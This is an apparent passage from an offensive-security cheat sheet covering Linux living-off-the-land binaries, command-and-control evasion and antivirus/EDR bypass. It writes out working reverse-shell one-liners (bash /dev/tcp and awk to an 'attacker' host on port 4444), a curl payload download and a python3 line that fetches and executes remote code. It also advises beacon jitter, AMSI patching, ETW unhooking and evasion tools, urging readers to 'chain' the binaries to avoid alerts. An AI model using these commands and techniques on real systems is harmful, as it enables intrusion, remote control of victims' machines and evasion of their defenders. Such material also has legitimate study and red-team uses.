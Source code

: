 #### 🐧 Linux

| Binary      | Use              | Example                                                                                       |
| ----------- | ---------------- | --------------------------------------------------------------------------------------------- |
| `curl/wget` | Download files   | \`curl [http://attacker/payload.sh](http://attacker/payload.sh)                               |
| `bash`      | Inline payload   | `bash -i >& /dev/tcp/attacker/4444 0>&1`                                                      |
| `awk/socat` | Reverse shell    | `awk 'BEGIN {s="/inet/tcp/0/attacker/4444";while(42){...}}'`                                  |
| `python3`   | In-memory loader | `python3 -c 'import urllib.request,os;exec(urllib.request.urlopen("http://x/sh.py").read())'` |

🧠 LOLBins = zero downloads, zero alerts. Learn them, chain them.

***

### IV. 🧠 Command & Control (C2) Evasion

| Technique                | Description                         | Example                                                |
| ------------------------ | ----------------------------------- | ------------------------------------------------------ |
| **Domain Fronting**      | Mask C2 through allowed CDN domains | `cdn.microsoft.com` front with `yourc2.cloudfront.net` |
| **DNS Tunneling**        | Encode data in DNS queries          | `iodine`, `dnscat2`                                    |
| **HTTP/HTTPS Beaconing** | Use web traffic patterns            | Random sleep, user-agent mimic                         |
| **SMB/Named Pipe C2**    | Internal stealth channels           | Sliver/Empire named pipes                              |
| **Encrypted Channels**   | TLS + domain-like names             | Avoid plaintext callbacks                              |

🧩 Configure random jitter:

> “Check in every 300s ±30%” → no beacon pattern.

***

### V. ⚙️ Antivirus / EDR Bypass Strategies

| Layer                    | Bypass Strategy                                       |
| ------------------------ | ----------------------------------------------------- |
| **Static Signature**     | Encode / compress / pack payloads                     |
| **Heuristic / Behavior** | Split stages, delay exec, sandbox checks              |
| **Memory Scanning**      | Reflective DLL injection, PowerShell in-memory loader |
| **Script Block Logging** | Obfuscate PowerShell, AMSI patch                      |
| **Binary Reputation**    | Use legitimate signed binaries                        |
| **Sysmon / ETW**         | Unhook or disable event tracing carefully (lab-only)  |

#### 🧰 Tools

| Tool                                 | Use                           |
| ------------------------------------ | ----------------------------- |
| **Invoke-Obfuscation**               | PowerShell obfuscation        |
| **Donut**                            | .NET shellcode loader         |
| **ScareCrow / ShellcodeFluctuation** | AV/EDR-evasive executables    |
| **CactusTorch / SharpShooter**       | HTA/DLL stagers               |
| **DefenderCheck**                    | Test local Defender detection |
| **PEzor**                            | Linux payload obfuscator      |
| **HTran / Chisel**                   | Encrypted proxy channels      |
